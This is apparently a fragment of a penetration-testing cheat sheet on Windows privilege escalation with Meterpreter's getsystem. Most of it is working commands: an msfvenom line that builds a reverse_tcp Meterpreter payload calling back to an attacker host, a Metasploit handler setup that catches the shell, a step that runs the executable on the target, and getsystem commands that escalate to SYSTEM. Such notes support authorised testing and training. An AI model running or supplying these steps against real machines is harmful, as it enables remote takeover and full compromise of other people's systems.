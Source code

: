 ## Meterpreter's getsystem exploit
- This tool requires your user to be a local admin or to have `SeDebugPrivilege` _(x86 only)_.
- Prepare the meterpreter shell:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Listen to the reverse shell:
```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <ip>
set lport 443
run
```
- Run shell:
```cmd
.\shell.exe
```
- Privesc using metasploit:
```bash
use priv
getsystem
```
